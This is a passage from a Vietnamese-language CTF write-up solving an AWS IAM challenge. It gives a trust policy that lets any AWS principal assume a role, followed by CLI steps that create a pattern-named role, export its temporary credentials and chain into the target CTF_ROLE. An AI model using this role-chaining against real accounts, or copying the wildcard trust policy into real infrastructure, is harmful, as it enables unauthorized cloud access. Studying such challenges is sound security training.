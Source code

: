 ```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "*" // allow all, no condittion
      },
      "Action": "sts:AssumeRole",
      "Condition": {}
    }
  ]
}
```

Và sử dụng `aws iam create-role --role-name <anything>-Accessing_Tet_CTF_Flag<anything> --assume-role-policy-document file://Trust-policy.json` để tạo Role, nhớ note lại ARN ở output

AssumeRole:

```console
$ aws sts assume-role --role-arn "arn:aws:iam::***************:role/<anything>-Accessing_Tet_CTF_Flag<anything>" --role-session-name <anyname>
{
    "Credentials": {
        "AccessKeyId": "access_key_id_here",
        "SecretAccessKey": "secret_access_key_here",
        "SessionToken": "long_token_here",
        "Expiration": "2022-01-03T09:02:51Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "******************:<anyname>",
        "Arn": "arn:aws:sts::***************:assumed-role/<anything>-Accessing_Tet_CTF_Flag<anything>/<anyname>"
    }
}
```

Lưu credential vào Env:

```console
$ export AWS_ACCESS_KEY_ID=<"AccessKeyId">
$ export AWS_SECRET_ACCESS_KEY=<"SecretAccessKey">
$ export AWS_SESSION_TOKEN=<"SessionToken">
```

Tiến hành AssumeRole `CTF_ROLE`:

```console
$ aws sts assume-role --role-arn "arn:aws:iam::***************:role/CTF_ROLE" --role-session-name <anyname>
{
    "Credentials": {
        "AccessKeyId": "access_key_id_here",
        "SecretAccessKey": "secret_access_key_here",
        "SessionToken": "long_token_here",
        "Expiration": "2022-01-03T09:02:51Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "******************:<anyname>",
        "Arn": "arn:aws:sts::***************:assumed-role/CTF_ROLE/<anyname>"
    }
}
```
